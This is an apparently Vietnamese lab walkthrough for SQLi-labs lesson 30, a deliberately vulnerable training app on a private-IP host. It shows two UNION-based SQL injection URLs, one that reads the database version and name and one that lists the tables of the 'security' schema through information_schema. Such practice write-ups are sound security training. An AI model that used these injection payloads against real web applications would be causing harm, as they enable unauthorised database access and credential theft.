




# Những việc làm được với lesson-30
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-30



Ta thấy yêu cầu đề bài là nhập id vào. Sau khi nhập id vào thì ta thấy nó hiển thị ra user và password. Khi ta thay đổi id thì nó sẽ thay đổi user và password. Vậy thì câu truy vấn của bài này có cấu trúc ra sao ta sẽ đi tìm nó 




1. Cấu trúc của lệnh truy vấn 

```
192.168.80.225/sqli-labs/Less-30/?id=1"union select 1,version(),database() limit 1,1 --+
```



2. Tên các bảng trong DB `securiity`
```
192.168.80.225/sqli-labs/Less-30/?id=0" union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+
```



Với cấu trúc truy vấn này thì dần dần ta có thể tìm được tất cả DB này như các bài trước 
